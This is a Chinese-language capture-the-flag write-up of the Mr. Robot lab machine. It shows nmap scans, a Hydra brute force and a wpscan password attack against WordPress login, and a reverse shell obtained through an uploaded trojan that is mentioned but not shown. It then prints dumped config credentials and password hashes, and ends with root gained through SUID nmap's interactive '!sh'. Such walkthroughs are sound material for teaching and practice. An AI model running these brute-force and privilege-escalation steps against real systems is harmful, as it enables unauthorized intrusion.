

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/mrrobot]
└─$ sudo nmap -sT --min-rate 9999 192.168.10.9          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 07:40 EDT
Nmap scan report for 192.168.10.9
Host is up (0.013s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 00:0C:29:38:4F:13 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.67 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/mrrobot]
└─$ sudo nmap -sT -sCV -O -p22,80,443 192.168.10.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 07:40 EDT
Nmap scan report for 192.168.10.9
Host is up (0.00066s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
MAC Address: 00:0C:29:38:4F:13 (VMware)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.9 (94%), Linux 3.2 - 3.8 (93%), Linux 3.18 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 - 4.6 (91%), Linux 2.6.26 - 2.6.35 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/mrrobot]
└─$ sudo nmap -sT --script vuln -p22,80,443 192.168.10.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 07:43 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.10.9
Host is up (0.00094s latency).

PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.10.9
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.10.9:80/js/vendor/null1this.tags.length10%7D1t.get1function11%7Bif1011this.tags.length1return
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/vendor/null1this.tags.length10%7D1t.get1function11%7Bif1011this.tags.length1return
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."+"forcedLinkTrackingTimeout)s.forcedLinkTrackingTimeout=250;setTimeout('if(window.s_c_il)window.s_c_il['+s._in+'].bcr()',s.forcedLinkTrackingTimeout);}else
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."+"forcedLinkTrackingTimeout)s.forcedLinkTrackingTimeout=250;setTimeout('if(window.s_c_il)window.s_c_il['+s._in+'].bcr()',s.forcedLinkTrackingTimeout);}else
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/BASE_URL1%22/live/%221;this.firstBoot?(this.firstBoot=!1,this.track.omni("Email
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/BASE_URL1%22/live/%221;this.firstBoot?(this.firstBoot=!1,this.track.omni("Email
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/vendor/e1t.type1%22text/javascript%221n.getElementsByTagName1%22head%221%5B0%5D.appendChild1t1%7Dt.supports1%7Bsimple1o1%22simple%2211flag1o1%22flag%221%7D1t.DOMReady1111t.readyCallback1function11%7Bt.DOMReady110%7D1t.supports.simple11t.supports.flag%7C%7C1a1function11%7Bt.readyCallback11%7D1n.addEventListener?(n.addEventListener("DOMContentLoaded",a,!1),e.addEventListener("load",a,!1)):(e.attachEvent("onload",a),n.attachEvent("onreadystatechange",function(){"complete"===n.readyState&&t.readyCallback()})),(a=t.source||{}).concatemoji?i(a.concatemoji):a.wpemoji&&a.twemoji&&(i(a.twemoji),i(a.wpemoji)))}(window,document,window._wpemojiSettings);
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/js/vendor/e1t.type1%22text/javascript%221n.getElementsByTagName1%22head%221%5B0%5D.appendChild1t1%7Dt.supports1%7Bsimple1o1%22simple%2211flag1o1%22flag%221%7D1t.DOMReady1111t.readyCallback1function11%7Bt.DOMReady110%7D1t.supports.simple11t.supports.flag%7C%7C1a1function11%7Bt.readyCallback11%7D1n.addEventListener?(n.addEventListener("DOMContentLoaded",a,!1),e.addEventListener("load",a,!1)):(e.attachEvent("onload",a),n.attachEvent("onreadystatechange",function(){"complete"===n.readyState&&t.readyCallback()})),(a=t.source||{}).concatemoji?i(a.concatemoji):a.wpemoji&&a.twemoji&&(i(a.twemoji),i(a.wpemoji)))}(window,document,window._wpemojiSettings);
|     Form id: 
|     Form action: http://192.168.10.9/
|     
|     Path: http://192.168.10.9:80/wp-login.php
|     Form id: loginform
|_    Form action: http://192.168.10.9/wp-login.php
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.33
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
443/tcp open   https
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.10.9
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: https://192.168.10.9:443/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/vendor/null1this.tags.length10%7D1t.get1function11%7Bif1011this.tags.length1return
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/vendor/null1this.tags.length10%7D1t.get1function11%7Bif1011this.tags.length1return
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/BASE_URL
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/BASE_URL
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/wp-login.php
|     Form id: loginform
|     Form action: https://192.168.10.9:443/wp-login.php
|     
|     Path: https://192.168.10.9:443/js/e1t.type1%22text/javascript%221n.getElementsByTagName1%22head%221%5B0%5D.appendChild1t1%7Dt.supports1%7Bsimple1o1%22simple%2211flag1o1%22flag%221%7D1t.DOMReady1111t.readyCallback1function11%7Bt.DOMReady110%7D1t.supports.simple11t.supports.flag%7C%7C1a1function11%7Bt.readyCallback11%7D1n.addEventListener?(n.addEventListener("DOMContentLoaded",a,!1),e.addEventListener("load",a,!1)):(e.attachEvent("onload",a),n.attachEvent("onreadystatechange",function(){"complete"===n.readyState&&t.readyCallback()})),(a=t.source||{}).concatemoji?i(a.concatemoji):a.wpemoji&&a.twemoji&&(i(a.twemoji),i(a.wpemoji)))}(window,document,window._wpemojiSettings);
|     Form id: 
|     Form action: https://192.168.10.9:443/
|     
|     Path: https://192.168.10.9:443/js/e1t.type1%22text/javascript%221n.getElementsByTagName1%22head%221%5B0%5D.appendChild1t1%7Dt.supports1%7Bsimple1o1%22simple%2211flag1o1%22flag%221%7D1t.DOMReady1111t.readyCallback1function11%7Bt.DOMReady110%7D1t.supports.simple11t.supports.flag%7C%7C1a1function11%7Bt.readyCallback11%7D1n.addEventListener?(n.addEventListener("DOMContentLoaded",a,!1),e.addEventListener("load",a,!1)):(e.attachEvent("onload",a),n.attachEvent("onreadystatechange",function(){"complete"===n.readyState&&t.readyCallback()})),(a=t.source||{}).concatemoji?i(a.concatemoji):a.wpemoji&&a.twemoji&&(i(a.twemoji),i(a.wpemoji)))}(window,document,window._wpemojiSettings);
|     Form id: 
|_    Form action: https://192.168.10.9:443/
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.33
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
MAC Address: 00:0C:29:38:4F:13 (VMware)
```


## web渗透


看了下robots

看到两个目录
访问一下

得到第一个flag
把字典下载下来
等等会用
```bash
┌──(kali㉿kali)-[~/workspace/mrrobot]
└─$ hydra -L fsocity.dic -p admin123 192.168.10.9  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-17 08:16:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://192.168.10.9:80/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username
[80][http-post-form] host: 192.168.10.9   login: Elliot   password: admin123
```

得到了一个用户

接下来就接着爆破密码吧
这里用的wpscan
wpscan --url http://192.168.10.9/ --usernames Elliot -P fsocity.dic

密码ER28-0652


## 反弹shell


上传好木马后
随便找个地方随便输个目录报404就反弹回来了


找到wp的存储地址
看一下配置文件

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'bitnami_wordpress');

/** MySQL database username */
define('DB_USER', 'bn_wordpress');

/** MySQL database password */
define('DB_PASSWORD', '570fd42948');

/** MySQL hostname */
define('DB_HOST', 'localhost:3306');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY', '680da46b083797689c88de74fb0e37751543e73da030db586c15c0324e0cedb9');
define('SECURE_AUTH_KEY', 'b5b074d24786c50a8566969fda3db0817acb9dfc89cc6c4385ef11006bbd11d8');
define('LOGGED_IN_KEY', 'fbefe850e9c60842e9e53ce239a42295870e1714edc75620ca69eb6df8c46d33');
define('NONCE_KEY', '4b49f12364adbfee4adb90a3ee653321ef4697073705a324013484e16d7a507a');
define('AUTH_SALT', '237ceb3335e2645a34f9630564bdb2d20c4cf839f191c7f339be8335bc2f6abc');
define('SECURE_AUTH_SALT', '78c494df94f55b27322220ae093effe08ec9e75a3159ebd472a625a6ae62004f');
define('LOGGED_IN_SALT', '3e824b24e1e23252c2d3c6718bb9ac862d61406333c333ee664527a81b720f22');
define('NONCE_SALT', '108211dc940a29d954ea3f78fce857a8fb018e437352aaf3c9fe0c3d57d31635');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */
/**
 * The WP_SITEURL and WP_HOME options are configured to access from any hostname or IP address.
 * If you want to access only from an specific domain, you can modify them. For example:
 *  define('WP_HOME','http://example.com');
 *  define('WP_SITEURL','http://example.com');
 *
*/

define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');


/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');

define('WP_TEMP_DIR', '/opt/bitnami/apps/wordpress/tmp');


define('FS_METHOD', 'ftpext');
define('FTP_BASE', '/opt/bitnami/apps/wordpress/htdocs/');
define('FTP_USER', 'bitnamiftp');
define('FTP_PASS', 'inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a');
define('FTP_HOST', '127.0.0.1');
define('FTP_SSL', false);
```
sql数据库信息
```sql
mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------------+-----------------------------------------------+---------------------+-----------------------------------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email            | user_url                                      | user_registered     | user_activation_key                           | user_status | display_name    |
+----+------------+------------------------------------+---------------+-----------------------+-----------------------------------------------+---------------------+-----------------------------------------------+-------------+-----------------+
|  5 | mich05654  | $P$BpmKcWWjgC3/UGtj/fO36PsCxYC2E51 | mich05654     | kgordon@therapist.com | http://mrrobot.wikia.com/wiki/Krista_Gordon   | 2015-11-13 03:12:15 | 1447384335:$P$BWTsdrJ59enQqyf.GRSxn2U8fm6Fzo. |           0 | krista Gordon   |
|  6 | elliot     | $P$BHh01ohuhaRcy2EAC6ad//vTQ1eMwe. | elliot        | elliot@mrrobot.com    | http://mrrobot.wikia.com/wiki/Elliot_Alderson | 2015-11-13 03:14:59 | 1447384499:$P$BjoxqXXZO5Ip25o40/GB.y0x9100Je0 |           0 | Elliot Alderson |
+----+------------+------------------------------------+---------------+-----------------------+-----------------------------------------------+---------------------+-----------------------------------------------+-------------+-----------------+
```


搞了半天robot的密码就在他家目录下

## 提权
```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ find / -perm -04000 -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# ls /root
ls /root
firstboot_done  key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```